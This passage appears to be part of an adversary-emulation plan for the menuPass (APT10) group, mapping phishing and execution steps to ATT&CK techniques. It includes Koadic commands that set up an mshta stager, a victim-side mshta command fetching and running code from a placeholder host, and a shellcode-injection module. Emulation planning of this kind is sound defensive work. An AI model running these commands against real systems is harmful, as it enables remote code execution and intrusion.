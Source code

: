 ### Procedures

#### Phishing ([T1566.001](https://attack.mitre.org/techniques/T1566/001), [T1566.002](https://attack.mitre.org/techniques/T1566/002))

Aside from trusted relationship abuse, menuPass is perhaps best known for efforts to achieve initial access to target networks by deploying phishing emails.  These phishing emails deployed tactical malware by one of the four previously discussed methods (macro, .lnk, exploit, masquerading).  menuPass has leveraged this initial access to conduct discovery, pursue credential access, and identify systems of interest on which to deploy and persist sustained malware.

## Step 2 - menuPass Execution

### Procedures

#### 2.A - User Execution: Malicious File ([T1204.002](https://attack.mitre.org/techniques/T1204/002/))

menuPass is reported to have employed LNK files to achieve user execution.  These LNK files utilized scripting languages to invoke the Windows command line, download and execute tactical implants.<sup>[16](https://trendmicro.com/en_us/research/18/c/chessmaster-adds-updated-tools-to-its-arsenal.html)</sup>

MSHTA was used to accomplish execution and situate the tactical implant, Koadic, in memory.  This tactical implant was used to conduct discovery, credential access, lateral movement.

Attacker

```cmd
./koadic
koadic: use stager/js/mshta
(koadic: sta/js/mshta)# set SRVHOST #{ip_address}
(koadic: sta/js/mshta)# set SRVPORT #{listening_port}
(koadic: sta/js/mshta)# run
[>] mshta http://#{ip_address/#{file_name}
```

Target

```cmd
C:\Users\Victim> mshta http://{#ip_address}/#{file_name}
```

#### 2.B (Optional)

In some instances, soon after establishing C2, menuPass is reported to have introduced an additional implant to enhance operational capabilities.<sup>[15](http://blog.trendmicro.com/trendlabs-security-intelligence/chessmasters-new-strategy-evolving-tools-tactics/)</sup>  <sup>[16](https://trendmicro.com/en_us/research/18/c/chessmaster-adds-updated-tools-to-its-arsenal.html)</sup>  They did so by using Koadic to inject arbitrary shellcode into a process.  Excel must be present on the host to use this procedure.

```cmd
(koadic: sta/js/mshta)# use implant/inject/shellcode_excel
(koadic: implant/inj/shellcode_excel)# set shellcode #{ASCIIhex_shellcode}
(koadic: implant/inj/shellcode_excel)# set zombie #{zombie_id}
(koadic: implant/inj/shellcode_excel)# run
```
## Step 3 - menuPass Discovery
